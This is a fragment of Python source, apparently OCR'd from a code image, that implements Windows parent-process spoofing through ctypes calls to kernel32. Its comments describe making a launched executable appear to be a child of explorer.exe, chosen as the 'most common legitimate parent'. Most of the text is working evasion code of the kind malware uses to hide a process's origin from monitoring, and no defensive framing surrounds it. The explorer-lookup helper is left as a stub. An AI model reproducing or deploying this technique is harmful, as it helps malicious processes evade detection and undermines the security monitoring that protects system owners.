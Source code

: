 ```python
        
        if not self.kernel32.InitializeProcThreadAttributeList(
            ctypes.byref(attr_list),
            1, 0,
            ctypes.byref(size)
        ):
            return None
        
        # 4. Update attribute with parent handle
        PROC_THREAD_ATTRIBUTE_PARENT_PROCESS = 0x00020000
        
        self.kernel32.UpdateProcThreadAttribute(
            ctypes.byref(attr_list),
            0,
            PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
            ctypes.byref(ctypes.c_void_p(parent_handle)),
            ctypes.sizeof(ctypes.c_void_p),
            None,
            None
        )
        
        # 5. Create process with spoofed parent
        startup_info = STARTUPINFOEXW()
        startup_info.StartupInfo.cb = ctypes.sizeof(STARTUPINFOEXW)
        startup_info.lpAttributeList = ctypes.cast(
            ctypes.byref(attr_list),
            ctypes.c_void_p
        )
        
        process_info = PROCESS_INFORMATION()
        
        EXTENDED_STARTUPINFO_PRESENT = 0x00080000
        
        if self.kernel32.CreateProcessW(
            executable,
            None,
            None, None, False,
            EXTENDED_STARTUPINFO_PRESENT,
            None, None,
            ctypes.byref(startup_info),
            ctypes.byref(process_info)
        ):
            # Success - process appears as child of spoofed parent
            created_pid = process_info.dwProcessId
            
            # Cleanup
            self.kernel32.CloseHandle(process_info.hProcess)
            self.kernel32.CloseHandle(process_info.hThread)
            self.kernel32.CloseHandle(parent_handle)
            self.kernel32.DeleteProcThreadAttributeList(ctypes.byref(attr_list))
            
            return created_pid
        
        return None
    
    def _find_explorer_pid(self) -> int:
        """Find explorer.exe PID (most common legitimate parent)"""
        # Use native API to find explorer.exe
        # ... implementation using CreateToolhelp32Snapshot
        pass
```
